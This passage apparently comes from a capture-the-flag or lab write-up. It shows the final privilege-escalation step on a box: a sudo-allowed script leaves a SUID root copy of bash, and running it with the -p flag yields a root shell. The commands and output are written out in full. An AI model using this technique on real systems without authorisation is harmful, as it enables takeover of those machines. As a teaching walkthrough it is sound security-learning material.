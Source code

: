 ```bash
$ sudo /usr/local/bin/bindmgr.sh
```

Now we should have a `bash` as root with the SUID bit set

```bash
$ ls -larth /etc/bind/named.bindmgr
total 1.2M
-rw-rw-r-- 1 root bind    2 Jun 18 08:30 .version
-rwsr-sr-x 1 root bind 1.2M Jun 18 08:30 bash
drwxr-sr-x 3 root bind 4.0K Jun 18 08:30 ..
drwxr-sr-x 2 root bind 4.0K Jun 18 08:30 .
```

Great! Lets give it a try and execute this bash, but before we do we must look at the bash manual, specifically this portion:

> If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not  inherited  from  the  environment,  the SHELLOPTS,  BASHOPTS,  CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id.  If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

So, if we just execute the bash, it will detect that the effective user (`root`) differs from the real user (`bindmgr`) and will set the effective user to the real user, causing it to execute as `bindmgr` and not `root`. So we need to pass the `-p` option to prevent this from happening.

```bash
$ /etc/bind/named.bindmgr/bash -p
bash-5.0# whoami
root
bash-5.0#
```

Success!!!! We are now root!
